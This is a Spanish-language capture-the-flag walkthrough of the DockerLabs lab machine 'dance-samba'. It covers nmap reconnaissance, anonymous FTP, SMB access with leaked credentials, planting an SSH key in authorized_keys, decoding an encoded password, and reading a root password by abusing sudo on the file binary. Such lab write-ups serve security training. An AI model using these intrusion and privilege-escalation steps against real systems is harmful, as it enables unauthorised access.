

# dance-samba

Maquina dance-samba de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio



## RECONOCIMIENTO

Comenzamos haciendo un escaneo de `nmap`:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Aug 26 13:56:49 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              69 Aug 19 19:03 nota.txt
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:4e:66:7d:e5:2e:cf:df:54:39:b2:08:a9:97:79:21 (ECDSA)
|_  256 92:bf:d3:b8:20:ac:76:08:5b:93:d7:69:ef:e7:59:e1 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-08-26T16:57:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   0.15 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 26 13:57:09 2024 -- 1 IP address (1 host up) scanned in 20.41 seconds

```

Vemos que el puerto `21`, `22`, `443` y `139` están abiertos. Sabiendo eso y que no está abierto el puerto 80, usaremos `ftp` para conectarnos de manera anonima, ya que nmap nos dice `ftp-anon: Anonymous FTP login allowed (FTP code 230)`. Para conectarlo simplemente ejecutamos

```css
ftp 172.17.0.2
```

ponemos de nombre `anonymous` y dejamos la contraseña vacia y ya estariamos dentro del ftp.

Haciendo un `ls` vemos lo siguiente:

```css
ftp> ls
229 Entering Extended Passive Mode (|||44635|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              69 Aug 19 19:03 nota.txt
226 Directory send OK.
ftp> 
```

por lo que ahora ponemos `get nota.txt` y salimos. En nuestra máquina atacante leemos el archivo .txt y vemos lo siguiente:

```css
I don't know what to do with Macarena, she's obsessed with donald.
```

Por lo que tenemos un posible usuario con contraseña: `macarena:donald`.

Luego de probar si nos sirve para el ssh sin éxito, ejecuto:

```css
smbmap -u macarena -p donald -H 172.17.0.2 
```

```css
Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	macarena                                          	READ, WRITE	
	IPC$                                              	NO ACCESS	IPC Service (f9bd436dad44 server (Samba, Ubuntu))
```

Como vemos hay una carpeta llamada "macarena", entonces ahora nos conectaremos con `smbclient` ejecutando:

```css
smbclient //172.17.0.2/macarena -U macarena -W WORKGROUP 
```

ponemos la contraseña y listo. Ahora como vemos estamos en la carpeta `/home/` de el usuario macarena, por lo que podriamos generar una clave ssh en nuestra maquina atacante y meterla en la máquina victima como `authorized_keys`.

## INTRUSION

Con toda la informacion que tenemos, iremos a nuestra máquina atacante y ejecutaremos `ssh-keygen`, esto nos generará una clave privada y una clave publica en nuestra carpeta `.ssh`. Volvemos al smb y creamos una carpeta `.ssh` en la maquina victima ejecutando `mkdir .ssh`, nos metemos y ejecutamos lo siguiente:

```css
put /home/kali/.ssh/id_rsa.pub ./authorized_keys
```

Una vez hecho eso, iremos a nuestra maquina atacante, a la carpeta ".ssh", y le daremos permisos de ejecución al archivo `id_rsa` ejecutando `chmod 600 id_rsa`. Ahora simplemente ejecutamos `ssh -i id_rsa macarena@172.17.0.2` y _ya estaremos dentro._

## ESCALADA DE PRIVILEGIOS

#### macarena

Siendo el usuario macarena, ejecutamos un `sudo -l` pero nos pide la contraseña, por lo que no podemos ejecutar nada sin contraseña. Luego de buscar un rato, veo un archivo llamado "hash" en `/home/secret/hash` y una password en `/opt/password.txt`, pero la password no la puedo leer. Si nos fijamos bien, el hash no es realmente un hash, sino mas parecido a un `base64` o `base32`, ya que si nos fijamos tiene esto:

```css
MMZVM522LBFHUWSXJYYWG3KWO5MVQTT2MQZDS6K2IE6T2===
```

Por lo que iremos a la página [CyberChef](https://gchq.github.io/CyberChef/), y ponemos `from base32` y pegamos el "hash". Esto nos dejará un mensaje realmente en `base64`:

```css
c3VwZXJzZWN1cmVwYXNzd29yZA==
```

Como vemos, esto realmente si parece `base64` por lo que ejecutamos en la máquina un `echo "c3VwZXJzZWN1cmVwYXNzd29yZA==" | base64 -d` y listo, tendremos una contraseña que dice:

```css
supersecurepassword
```

Por lo que ahora si ejecutamos un `sudo -l` y vemos que si es la contraseña de macarena, y nos permite ejecutar el binario "File" como root, por lo que simplemente buscamos en [GTFOBins](https://gtfobins.github.io/) y buscamos el binario file. Como vemos, podemos leer archivos del sistema como root, por lo que simplemente ejecutaremos lo siguiente:

```css
LFILE=/opt/password.txt
```

y luego ejecutamos:

```css
sudo file -f $LFILE
```

```css
root:rooteable2
```

Como vemos, ya tenemos la contraseña de root, por lo que ponemos `su` y la contraseña y _ya seremos root_:


Gracias por leer...
